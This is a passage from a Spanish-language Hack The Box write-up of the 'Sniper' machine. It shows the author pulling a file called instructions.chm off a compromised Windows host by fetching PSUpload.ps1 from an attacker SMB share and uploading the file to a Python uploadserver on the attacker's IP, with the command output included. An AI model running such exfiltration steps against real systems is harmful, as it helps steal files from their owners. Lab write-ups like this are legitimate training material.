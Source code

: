 
```
PS C:\Users\Chris\downloads> Get-ChildItem -Force


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a-hs-        4/11/2019   7:04 AM            282 desktop.ini                                                           
-a----        4/11/2019   8:36 AM          10462 instructions.chm                                                      
```
Encontramos un archivo 'chm' ("Compiled HTML Help"); CHM Es un archivo en formato binario de ayuda de Microsoft HTML.  Los archivos CHM suelen contener una tabla de contenido, índices, enlaces y búsqueda para facilitar la navegación y búsqueda de información.

Vamos a intentar transferir el archivo 'instructions.chm' a nuestra máquina de atacante. Primero vamos a calcular el hash del archivo para después compararlo una vez descargado en nuestra máquina con 'md5sum' y verificar que sea el mismo y no hay sufrido alguna modificación; En mi caso para transferir el archivo a mi máquina, usaré un script llamado 'PSUpload.ps1' que descargué del sitio de Github de Julio Ureña "https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1", lo copiaré desde mi server SMB a la máquina víctima y montaré un servidor 'uploadserver' con python3 para recibir el archivo.

```
PS C:\Users\Chris\downloads> Get-FileHash "./instructions.chm" -Algorithm MD5 | select Hash

Hash                            
----                            
CD689B38697B2FCAB562D41D6519373E


PS C:\Users\Chris\downloads> copy \\10.10.14.15\share\PSUpload.ps1
PS C:\Users\Chris\downloads> Invoke-FileUpload -Uri http://10.10.14.15/upload -File ./instructions.chm

```

```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $sudo python3 -m uploadserver 80

File upload available at /upload
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.151 - - [13/Sep/2023 19:31:00] [Uploaded] "instructions.chm" --> /home/ot3ro/HTB/Sniper/instructions.chm
10.10.10.151 - - [13/Sep/2023 19:31:00] "POST /upload HTTP/1.1" 204 -


┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $sudo chown ot3ro instructions.chm 

┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $md5sum instructions.chm 
cd689b38697b2fcab562d41d6519373e  instructions.chm

```
